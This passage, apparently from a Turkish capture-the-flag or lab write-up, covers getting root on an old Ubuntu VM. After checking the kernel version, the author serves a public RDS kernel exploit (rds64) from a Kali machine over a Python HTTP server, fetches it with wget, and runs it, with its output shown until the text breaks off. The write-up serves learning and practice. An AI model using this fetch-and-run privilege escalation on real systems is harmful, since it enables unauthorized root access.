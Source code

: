 Kullanıcı flagini aldık. Sırada root var.

## Root Flag Yolunda

Sistemin kernel sürümüne uygun exploit bulabileceğimi düşündüm.

```text
$ uname -a
Linux ubuntu 2.6.35-19-generic #28-Ubuntu SMP Sun Aug 29 06:34:38 UTC 2010 x86_64 GNU/Linux
```

İntenette ce exploit-db de araştırma ve bir kaç başarısız exploit denemesinden sonra [şu adresteki exploiti](https://github.com/lucyoa/kernel-exploits/blob/master/rds/rds64) denedim ve işe yaradı.

Exploiti indirip zafiyetli makineye gönderdim. Gönderme işlemi şu şekilde:

Kendi bilgisayarımdan basit bir http server başlattım

```text
root@kali:~# python -m SimpleHTTPServer 8001
Serving HTTP on 0.0.0.0 port 8001 ...
```

Ardından zafiyetli makineden bağlanıp exploiti indirdim:

```text
$ wget http://192.168.56.1:8001/rds64
--2018-11-29 14:51:25--  http://192.168.56.1:8001/rds64
Connecting to 192.168.56.1:8001... connected.
HTTP request sent, awaiting response... 200 OK
Length: 694271 (678K) [application/octet-stream]
Saving to: `rds64'

     0K .......... .......... .......... .......... ..........  7% 4.24M 0s
    50K .......... .......... .......... .......... .......... 14% 49.2M 0s
   100K .......... .......... .......... .......... .......... 22% 39.6M 0s
   150K .......... .......... .......... .......... .......... 29% 37.0M 0s
   200K .......... .......... .......... .......... .......... 36% 46.6M 0s
   250K .......... .......... .......... .......... .......... 44% 66.1M 0s
   300K .......... .......... .......... .......... .......... 51% 58.2M 0s
   350K .......... .......... .......... .......... .......... 58% 3.85M 0s
   400K .......... .......... .......... .......... .......... 66% 43.0M 0s
   450K .......... .......... .......... .......... .......... 73% 82.2M 0s
   500K .......... .......... .......... .......... .......... 81% 85.0M 0s
   550K .......... .......... .......... .......... .......... 88%  330M 0s
   600K .......... .......... .......... .......... .......... 95%  790M 0s
   650K .......... .......... .......                         100%  690M=0.03s

2018-11-29 14:51:25 (20.1 MB/s) - `rds64' saved [694271/694271]
```

Geriye sadece çalıştırma yetkisi verip çalıştırmak kaldı.

```text
$ chmod +x rds64
$ ./rds64
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xffffffff81ce8df0
 [+] Resolved default_security_ops to 0xffffffff81a523e0
 [+] Resolved cap_ptrace_traceme to 0xffffffff8125db60
 [+] Resolved commit_creds to 0xffffffff810852b0
 [+] Resolved prepare_kernel_cred to 0xffffffff81085780
[*] Overwriting security ops...
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xffffffff81ce8df0
```